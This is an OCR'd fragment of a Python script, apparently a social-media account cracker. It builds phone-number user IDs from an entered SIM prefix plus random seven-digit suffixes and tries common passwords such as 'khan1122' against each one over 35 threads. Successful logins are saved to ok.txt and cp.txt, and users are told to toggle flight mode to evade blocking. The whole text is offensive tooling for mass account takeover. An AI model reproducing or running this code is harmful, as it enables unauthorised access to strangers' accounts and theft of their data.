 #_______
def random_number3():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode,'khankhan','khan12','khan1122']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___________
def random_number4():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru,'khan786','khan44','khan12','khan1122']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')